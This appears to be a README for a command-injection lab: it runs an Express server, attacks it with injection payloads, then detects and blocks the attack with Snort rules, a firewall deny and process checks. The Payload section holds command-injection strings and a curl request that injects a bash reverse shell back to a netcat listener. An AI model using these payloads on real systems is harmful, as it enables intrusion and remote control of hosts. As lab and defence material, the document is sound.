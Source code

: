## Running the Server

To run the Server, follow these steps:

### Install npm
```bash
sudo apt install npm
```

### Install Express.js using npm:

```bash
npm install express
```

### Run the server:

```bash
node server.js
```

### Payload

Use the following payloads for testing:

```plaintext
google.com; id
google.com&&id
```

```bash
# Setup a Netcat listener On Kali
nc nc -lnvp 4444

#  Send request with payload
curl "http://{dest_id}:{dest_port}/execute?cmd=ping&target=google.com;bash+-c+'bash+-i+>%26+/dev/tcp/{src_ip}/{src_port}+0>%261'"
```

### Detecting Semicolons in Input with Snort

To detect semicolons in input, use the following Snort rule:

```plaintext
alert tcp any any -> $HOME_NET 3000 (msg:"Possible command injection attempt - semicolon in input (\;)"; content:"|3B|"; nocase; sid:1000001; rev:1;)
```

### Detecting Multiple Commands in Input with Snort

To detect multiple commands in input, use the following Snort rule:

```plaintext
alert tcp any any -> $HOME_NET 3000 (msg:"Possible command injection attempt - multiple commands in input (&&)"; content:"|26 26|"; nocase; sid:1000002; rev:1;)
```

### Run Snort
```
sudo snort -A console -c /etc/snort/snort.conf
```

### Deny traffic from Kali on Ubuntu Desktop
```
sudo ufw status
sudo ufw enable
sudo ufw deny from 192.168.1.114 to any
sudp ufw status
```

### Checking All Active Network Connections
```
netstat -tunpa | grep ESTABLISHED
ps -aux | grep bash
```

### Kill it 
```
kill -9 {pid} {pid} {pid}
```
